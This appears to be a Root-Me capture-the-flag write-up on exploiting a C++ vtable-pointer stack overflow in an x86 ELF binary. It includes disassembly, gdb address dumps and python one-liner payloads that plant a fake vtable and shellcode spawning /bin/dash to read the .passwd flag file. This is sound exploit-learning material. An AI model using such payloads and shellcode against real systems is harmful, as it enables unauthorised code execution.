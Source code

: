 # rootme : ELF x86 - Stack buffer overflow - C++ vtables


g++ places the vtable at the end of the object.  Windows visual c++ places vtable at start of object.

In this challenge the object contains only the vtable and follows a buffer that can be overflowed, avoiding compiler differences.

    class:
        char str[80];
        formatter * m_pFormatter ;

    vtable:
        RTTI
        displayName
        format


This function accesses the object, dereferences the vtable pointer and calls the format function pointer.

    / (fcn) sym.MyStringFormatter::display 39
    |   sym.MyStringFormatter::display (int arg_8h);
    |           ; arg int arg_8h @ ebp+0x8
    |           ; var int local_4h @ esp+0x4
    
    |           0x08048a0b      8b4050         mov eax, dword [eax + 0x50]
    |           0x08048a0e      8b00           mov eax, dword [eax]
    |           0x08048a10      83c008         add eax, 8
    |           0x08048a13      8b08           mov ecx, dword [eax]
    
    |           0x08048a25      ffd1           call ecx


Buffer address:
    
    gdb$ x/1wx 0xbffffb60+0x50
    0xbffffbb0:     0x0804b008

Object address:
    
    gdb$ x/10xw 0x0804b008
    0x804b008:      0x08048bd8

Vtable address:
    
    gdb$ x/4wx 0x08048bd8
    0x8048bd8 <_ZTV14LowerFormatter+8>:     0x0804894c      0x08048956      0x0804896a


Create vtable in buffer and call into shellcode.  Easy.
    
    Buf: <junk> <junk> <buf+8> <junk> <buf+20> <shellcode> <buf+8>
                       vtable         func                  obj


Except that even after removing extra env var from gdb, the buffer address of 0xbffffb60 still wasn't correct.  Utter headache..

How do you find correct address when no core dump files available?  By using the valid addresses to get normal output.


Use correct object address:

    python -c 'print "5\n2\n" + "AAA" + "AAAA" + "BBBB" + "CCCC" + "\x90" * 60 + "\x08\xb0\x04\x08"' | ./ch20

Use correct vtable address but in buffer - I had to brute force the buffer address:

    python -c 'print "5\n2\n" + "AAA" + "\xd8\x8b\x04\x08" + "BBBB" + "CCCC" + "\x90" * 60 + "\x98\xfb\xff\xbf"' | ./ch20

Use correct function pointer but in buf+16:

    python -c 'print "5\n2\n" + "AAA" + "\x98\xfb\xff\xbf" + "BBBB" + "\x6a\x89\x04\x08" + "\x90" * 60 + "\x98\xfb\xff\xbf"' | ./ch20

Add the shellcode with command:

    (python -c 'print "5\n2\n" + "AAA" + "\x98\xfb\xff\xbf" + "BBBB" + "\xa8\xfb\xff\xbf" + "\x90" * 14 + "\xeb\x1d\x5b\x31\xd2\x89\xd9\x83\xc1\x04\x83\xc1\x05\x88\x11\x31\xc0\xb0\x0b\x31\xc9\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xde\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41" + "\x98\xfb\xff\xbf"' ; /bin/echo "cat .passwd") | ./ch20


Solved!
